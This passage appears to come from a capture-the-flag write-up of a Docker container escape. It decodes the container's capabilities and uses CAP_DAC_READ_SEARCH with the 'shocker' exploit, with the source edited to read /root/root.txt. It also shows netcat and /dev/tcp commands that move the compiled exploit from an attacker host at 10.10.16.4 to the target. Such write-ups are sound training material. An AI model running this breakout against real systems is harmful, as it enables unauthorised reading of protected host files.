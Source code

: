 ```bash
capsh --decode=00000000a80425fd

0x00000000a80425fd=cap_chown,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap

```

Now, going on the hacktricks site recommended, let’s find if any of our capabilities allow us to escape the container. https://blog.1nf1n1ty.team/hacktricks/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation

We have dav_read_search (same as cap_dac_read_search). 

[**CAP_DAC_READ_SEARCH**](https://man7.org/linux/man-pages/man7/capabilities.7.html) enables a process to **bypass permissions for reading files and for reading and executing directories**. **This means that you can** **bypass can bypass file read permission checks and directory read/execute permission checks.**

Hacktricks recommend the exploit shocker from this site:

http://stealth.openwall.net/xSports/shocker.c

Now change the following lines; let fd1 open an existing file e.g. /etc/hostname, then change the file we want to read to /root/root.txt

```bash
	read(0, buf, 1);

	// get a FS reference from something mounted in from outside
	if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
		die("[-] open");

	if (find_handle(fd1, "/root/root.txt", &root_h, &h) <= 0)
		die("[-] Cannot find valid handle!");
```

Now compile it on a 20.0.4 Ubuntu:

```bash
gcc -o shocker shocker.c
```

Now let’s transfer the exploit to the host:

```bash
#on attack host
nc -lnvp 8002 < shocker

#target
cat < /dev/tcp/10.10.16.4/8002 > shocker
```

Now execute it:

```bash
chmod +x shocker

./shocker
```

We now have flag:

![image.png]({{ site.baseurl }}/assets/talkative/image%2035.png)